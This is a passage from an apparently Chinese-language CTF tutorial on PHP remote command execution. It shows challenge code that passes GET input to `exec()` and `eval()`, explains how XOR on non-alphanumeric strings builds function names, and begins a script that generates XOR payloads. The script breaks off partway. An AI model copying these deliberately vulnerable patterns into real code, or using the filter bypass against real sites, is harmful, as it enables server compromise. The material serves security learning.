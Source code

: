 ```php
<?php
$sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
@mkdir($sandbox);
@chdir($sandbox);
if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 4) {
	@exec($_GET['cmd']);
} else if (isset($_GET['reset'])) {
	@exec('/bin/rm -rf ' . $sandbox);
}
highlight_file(__FILE__);
```

### 无字母数字

```php
<?php
if(!preg_match('/[a-z0-9]/is',$_GET['shell'])) {
  eval($_GET['shell']);
}
```

将非字母、数字的字符经过各种变换，构造出字母、数字，进而得到函数名，结合PHP动态函数的特点，达到执行代码的目的。

PHP 7引入了抽象语法树（AST），与PHP 5在[关于间接使用变量、属性和方法的变化](https://www.php.net/manual/zh/migration70.incompatible.php)。特别说明的是，PHP 7支持`'phpinfo'()`、`('phpinfo')()`。

$_GET[_] 8个字符

- 按位异或XOR`^`

[PHP位运算符](https://www.php.net/manual/zh/language.operators.bitwise.php)中的`按位异或`，如`$a ^ $b`，当两个操作对象**都是字符串**时，将对会组成字符串的字符ASCII值执行操作，结果也是一个字符串。按位异或的规则是`相同为0，不同为1`。

```php
<?php
echo 0^0; // 0
echo 0^1; // 1
echo 1^1; // 0
echo 1^0; // 1

echo urlencode('a'^'a'); // %00
echo urlencode('a'^'b'); // %03
```

我们可以通过

```php
<?php
$myfile = fopen("xor_rce.txt", "w");
$contents = "";
for ($i = 0; $i < 256; $i++) {
	for ($j = 0; $j < 256; $j++) {

		if ($i < 16) {
			$hex_i = '0'.dechex($i);
		} else {
			$hex_i = dechex($i);
		}
		if ($j < 16) {
			$hex_j = '0'.dechex($j);
		} else {
			$hex_j = dechex($j);
		}
		$preg = '/[a-z0-9]/i'; //根据题目给的正则表达式修改即可
		if (preg_match($preg, hex2bin($hex_i)) || preg_match($preg, hex2bin($hex_j))) {
			echo "";
		} else {
			$a = '%'.$hex_i;
```